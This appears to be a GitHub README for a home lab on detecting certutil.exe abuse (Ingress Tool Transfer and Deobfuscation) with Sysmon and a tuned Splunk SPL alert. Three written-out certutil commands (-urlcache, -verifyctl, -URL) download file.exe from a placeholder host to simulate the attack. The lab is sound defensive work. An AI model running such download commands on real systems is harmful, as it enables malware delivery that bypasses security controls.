



This project demonstrates how to detect Ingress Tool Transfer (T1105) and Deobfuscation (T1140) techniques using certutil.exe. While certutil is a legitimate Windows utility for managing certificates, it is frequently abused by threat actors to download malicious payloads or decode smuggled files, bypassing standard security controls. This documentation covers the simulation of these attacks and the development of high-fidelity Splunk alerts to detect them.

****Lab Environment & Tools****

1-SIEM: Splunk Enterprise (Hosted on Ubuntu Server)

2-Endpoint: Windows 10 VM

3-Telemetry: Sysmon (System Monitor)

4-Forwarder: Splunk Universal Forwarder

5-Framework: MITRE ATT&CK (T1105, T1140)

****Adversary Simulation****

These commands were executed on the Windows VM to simulate common attacker tradecraft.

**Ingress Tool Transfer (Remote Download)**

```powershell
certutil.exe -urlcache -f https://www.example.org/file.exe file.exe
```


This command simulates downloading a malicious executable from a remote server using the -urlcache and -f (force) flags.

**VerifyCTL Download**

```powershell
certutil.exe -verifyctl -f https://www.example.org/file.exe file.exe
```


This command abuses the certificate trust list verification feature to fetch a remote file.

****Direct URL Retrieval****

```powershell
certutil.exe -URL https://www.example.org/file.exe
```


This command uses the direct -URL argument to initiate a download.

****Detection Engineering (Splunk SPL)****

Initial Discovery Query:

```splunk
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| search Image="*\certutil.exe" OR OriginalFileName="certutil.exe"
| where (like(CommandLine, "%-urlcache%") AND like(CommandLine, "%-f%") OR like(CommandLine, "%-verifyctl%") OR like(CommandLine,"%-URL%"))
| search NOT (ParentImage="*C:\\Windows\\System32\\services.exe*")
| table _time Image ParentImage CommandLine User IntegrityLevel
```



The Splunk search query is designed to identify high-risk Living Off the Land (LotL) techniques by monitoring for suspicious certutil.exe process activity. The query specifically targets Ingress Tool Transfer (T1105) and Deobfuscation (T1140) by filtering for command-line arguments such as -urlcache, -f, -verifyctl, and -URL, which are commonly used by adversaries to download or decode malicious payloads while bypassing standard security controls. To ensure the detection is resilient against evasion, the logic uses the OriginalFileName field in addition to the process name. This is a critical industry-level best practice because it allows the SIEM to identify the binary even if an attacker renames certutil.exe to a benign-looking filename like taskhost.exe.

****False Positive Reduction and Tuning****
A primary goal of this query is to achieve High-Fidelity alerting by minimizing false positives (noise) that typically lead to alert fatigue in a SOC. This is accomplished by implementing a Parent-Process Exclusion rule that filters out legitimate system activity initiated by C:\Windows\System32\services.exe. In many enterprise environments, certutil is frequently executed by the system for routine certificate management and background updates; by excluding this trusted parent process, we isolate unusual activity triggered by interactive shells like cmd.exe or powershell.exe. Furthermore, the query uses specific behavioral flags—such as requiring both -urlcache and -f to be present—rather than just flagging every instance of the utility, ensuring that standard certificate administrative tasks do not trigger unnecessary critical alerts.

****Proof of Detection ((How I Verified the Alerts)****



After setting up the logic, I needed to make sure the alerts actually fired when the "attack" happened. I ran the three certutil.exe commands manually—specifically the ones using -urlcache, -verifyctl, and -URL. As soon as I executed them, my LotL_certutil alert caught them in real-time. Looking at my Triggered Alerts dashboard, I could see three separate critical events pop up at 14:29:01, 14:30:00, and 14:31:00 IST, which perfectly matched the timing of my manual testing.

I set these to a Critical severity because an unauthorized tool download on a production endpoint is a massive red flag. By using the "Per Result" trigger mode, I was able to see each individual command execution as its own incident. This is a big deal for a SOC analyst because it makes it way easier to build an exact timeline of what the "attacker" was trying to do. Seeing these alerts fire successfully proved to me that my SPL tuning worked—it managed to ignore the usual background noise and zero in on the actual suspicious behavior.


